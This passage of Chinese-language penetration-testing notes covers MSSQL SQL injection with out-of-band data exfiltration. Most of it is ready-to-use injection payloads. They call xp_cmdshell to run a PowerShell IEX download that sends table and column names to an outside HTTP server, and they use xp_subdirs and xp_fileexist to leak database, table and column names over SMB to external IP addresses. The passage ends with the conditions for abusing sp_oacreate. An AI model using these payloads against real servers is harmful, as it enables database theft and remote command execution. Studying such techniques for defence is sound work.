 ###### ②表名

```sql
id=1;declare @a varchar(8000);set @a=(select top 1 table_name from information_schema.tables);exec('master..xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring(''http://192.168.72.12:8000?data='%2b@a%2b''')"') --+
```

![](http://113.45.142.235:9001/laffrex/pictures/HTTP%E8%8E%B7%E5%8F%96%E8%A1%A8.png)

###### ③字段名

```sql
id=1;declare @a varchar(8000);set @a=(select top 1 column_name from information_schema.columns);exec('master..xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring(''http://192.168.72.12:8000?data='%2b@a%2b''')"') --+
```

![](http://113.45.142.235:9001/laffrex/pictures/HTTP%E8%8E%B7%E5%8F%96%E5%AD%97%E6%AE%B5.png)

****

##### c. SMB

###### ①数据库名

```sql
id=1;declare @a varchar(1024);set @a=db_name();exec('master..xp_subdirs "//'%2b'192.168.172.100\\'%2b@a%2b'.txt"') --+
```

###### ②表名

```sql
id=1;declare @a varchar(1024);set @a=(select top 1 table_name from information_schema.tables);exec('master..xp_subdirs "//'%2b'192.168.172.100\\'%2b@a%2b'.txt"') --+
```

###### ③字段名

```sql
id=1;declare @a varchar(1024);set @a=(select top 1 column_name from information_schema.columns);exec('master..xp_fileexist "//'%2b'192.168.71.11\\'%2b@a%2b'.txt "') --+
```

### 6. 存储过程

#### (1). 定义

* 一组为了完成特定功能的**SQL语句集合**，经编译后存储在数据库中，用户通过**指定存储过程的名称**并**给出参数**来执行

#### (2). 系统存储过程

* 以 ``sp_`` 开头

##### a. 利用条件

> 1. 已获取到**sqlserver sysadmin权限用户**的账号与密码、且**未降权**(2019版本sa用户权限为mssqlserver)
> 2. sqlserver**允许远程连接**
> 3. 已**开启sp_oacreate**
> 4. **OLE Automation Proccedures**选项开启
